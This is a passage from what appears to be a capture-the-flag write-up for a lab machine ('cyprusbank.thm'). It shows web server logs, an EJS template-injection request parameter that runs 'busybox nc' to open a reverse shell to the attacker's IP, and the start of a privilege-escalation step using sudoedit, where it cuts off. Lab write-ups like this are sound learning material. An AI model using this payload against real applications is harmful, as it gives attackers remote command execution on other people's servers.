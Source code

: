 ```ad-hint
`10.10.116.77 - - [31/Oct/2024 05:03:44] 
"GET / HTTP/1.1" 200 10.10.116.77 - - [31/Oct/2024 05:03:44] "GET / HTTP/1.1" 200 
10.10.116.77 - - [31/Oct/2024 05:03:45] "GET / HTTP/1.1" 200 -|`
````

Now, we can use it to obtain a shell, first by using our web server to serve a reverse shell payload.

Create a `index.html` file with this inside:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106160836.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106160911.png)


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106160440.png)

Once, I sent the request, it seemed like the web server was unable to read my index.html file, so, I changed the request to this, and got a shell:

```ad-hint

##### USED

`&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.6.34.159 4444 -e bash');s`

#### OUTPUT

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106161910.png)


```
# PRIVILEGE ESCALATION
---

First, let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize]] our shell:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106162117.png)

Nice, with our new stabilized shell, we can look forward to escalate our privileges into root, let's enumerate the machine:


## SUDO -L

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106162209.png)

We can run sudo in 

`sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
